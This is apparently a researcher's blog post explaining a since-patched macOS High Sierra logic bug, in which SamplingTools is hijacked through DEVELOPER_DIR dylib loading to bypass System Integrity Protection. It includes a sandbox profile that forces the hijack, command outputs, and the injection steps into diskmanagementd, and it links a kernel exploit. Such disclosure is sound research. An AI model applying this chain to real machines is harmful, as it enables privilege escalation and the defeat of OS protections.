 ```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/elevated.png
---
```


![](/img/elevated.png)

This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* /System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib
* /Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
* /usr/lib/libswiftDemangle.dylib
* `${xcselect_get_developer_dir_path()}`/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib

<!-- more -->

![](/img/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`  
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">  
<plist version="1.0">  
<dict>  
 <key>com.apple.private.kernel.get-kext-info</key>  
 <true/>  
 <key>com.apple.system-task-ports</key>  
 <true/>  
</dict>  
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8  
Process: Finder [42164]  
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder  
Load Address: 0x10515f000  
Identifier: com.apple.finder  
Version: 10.13.5 (10.13.5)  
Build Info: Finder_FE-1054005004000000~3  
Code Type: X86–64  
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder  
Password:  
(lldb) process attach --name "Finder"  
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*  
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")  
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")  
  (literal "/usr/lib/libswiftDemangle.dylib")  
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)  
Exception Codes: 0x0000000000000032, 0x000000010d745000  
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:  
Process used task_for_pid().
VM Regions Near 0x10d745000:  
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV   
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85  
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:  
dyld: in dlopen()  
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86  
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348  
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8  
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41  
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298  
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75  
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`  
Executable=/usr/bin/symbols  
Identifier=com.apple.SamplingTools  
Format=Mach-O thin (x86_64)  
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019–05–14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)